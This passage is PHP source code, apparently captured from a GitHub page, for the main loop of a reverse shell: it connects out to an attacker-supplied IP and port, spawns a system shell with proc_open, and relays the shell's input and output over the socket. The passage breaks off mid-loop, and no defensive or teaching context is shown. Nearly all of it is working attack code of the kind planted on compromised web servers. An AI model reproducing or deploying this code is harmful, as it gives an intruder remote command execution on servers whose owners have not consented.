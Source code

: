 ```php

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
```